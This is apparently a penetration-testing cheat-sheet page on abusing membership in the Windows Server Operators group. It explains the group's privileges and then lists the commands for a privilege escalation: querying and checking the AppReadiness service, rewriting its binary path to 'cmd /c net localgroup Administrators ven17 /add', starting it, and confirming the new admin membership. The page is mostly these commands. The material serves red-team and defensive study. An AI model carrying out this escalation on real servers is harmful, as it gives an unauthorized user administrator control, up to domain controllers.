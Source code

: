 # Server Operators

## <mark style="color:yellow;">About</mark>

<mark style="color:red;">**Server Operators**</mark> group allows members to <mark style="color:purple;">**administer Windows servers**</mark> without needing assignment of Domain Admin privileges. It is a very highly privileged group that can log in locally to servers, including Domain Controllers.

Membership of this group confers the powerful <mark style="color:green;">`SeBackupPrivilege`</mark> and <mark style="color:green;">`SeRestorePrivilege`</mark> privileges and the ability to control local services.

As example we would use **AppReadiness** service because it has high privileges and starts as SYSTEM. But method could be used against other services too.

## <mark style="color:yellow;">Querying the Service</mark>

```powershell
C:\> sc.exe qc AppReadiness
```

## <mark style="color:yellow;">Checking Service Permissions with PsService</mark>

```powershell
C:\> c:\Tools\PsService.exe security AppReadiness
```

## <mark style="color:yellow;">Modifying the Service Binary Path</mark>

```powershell
C:\> sc.exe config AppReadiness binPath= "cmd /c net localgroup Administrators ven17 /add"
```

## <mark style="color:yellow;">Starting the Service</mark>

```powershell
C:\> sc.exe start AppReadiness
```

## <mark style="color:yellow;">Confirming Local Admin Group Membership</mark>

```powershell
C:\> net localgroup Administrators
```
